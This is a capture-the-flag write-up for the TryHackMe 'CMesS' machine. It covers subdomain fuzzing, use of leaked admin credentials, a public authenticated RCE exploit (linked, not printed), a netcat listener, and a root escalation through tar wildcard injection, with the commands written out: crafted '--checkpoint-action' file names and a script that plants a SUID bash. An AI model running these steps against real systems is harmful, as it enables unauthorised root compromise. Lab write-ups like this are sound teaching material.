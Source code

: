 ```yaml
---
title: /writeups/CMesS
layout: post
permalink: /writeups/CmesS
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/r/room/cmess">"CMesS"</a>

The only interesting thing in the nmap scan is the port 80 so that'll be the place to start.

Unfortunately there's nothing interesting on the default page, and neither gives us dirbusting besides the /admin login portal.
However, after running wfuzz:
`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107` (the `--hl 107` filters the results for us to exclude the 404s)
We can find interesting dev.cmess.thm.

<img src="/images/DevCmess.png" alt="dev.cmess.thm" />

And there obviously is email and password that we can use to login on /admin found earlier

After we login, the admin page greets us with the version of the CMS

<img src="/images/VersionCmess.png" alt="cmess version" />

Searchsploit tells us that there's an authenticated RCE for that exact version.
You can get the exploit [here](https://www.exploit-db.com/exploits/51569)

<img src="/images/ExploitCmess.png" alt="cmess exploit" />

The exploit obviously works and gives us a www-data shell (Remember to start the listener before running the exploit! `nc -lvnp <port>')

#PrivEsc

I think that the PrivEsc is actually the hardest part of this box. 
Running both Linpeas and LinEnum gives us 2 interesting findings.

The first one is the crontab

<img src="/images/LinPeasCmess.png" alt="cmess Crontab finding" />

We can clearly see that it's vulnerable to wildcard injection but we are not able to exploit it yet because we do not have acces to the `/home/andre/backup`

For some reason the LinPeas was extremly slow on this machine so I decided to run LinEnum, it gave me this:

<img src="/images/LinEnumCmess.png" alt="LinEnum finding" />

It turns out that this file contains the andre's password

<img src="/images/AndreCmess.png" alt="Andre passwd" />

Now, we've got every information needed to gain the root on this machine.
First, we ssh as andre:
`ssh andre@<ip>`
and provide the password found in the backup file.

Thanks to that, we have acces to `/home/andre/backup`, so let's cd there.
`cd /home/andre/backup`

Now we can proceed with the wildcard injection...
`nano shell.sh`
In the nano  we write:
```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
Now, we have to create some files to make the cron execute our shell.sh
```
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" > --checkpoint=1
```
And now we wait.

After a minute we should see a SUID copy of bash in the /tmp directory.
To get the root we simply run it:
<img src="/images/RootCmess.png" alt="Root CMess" />

Thank you for reading
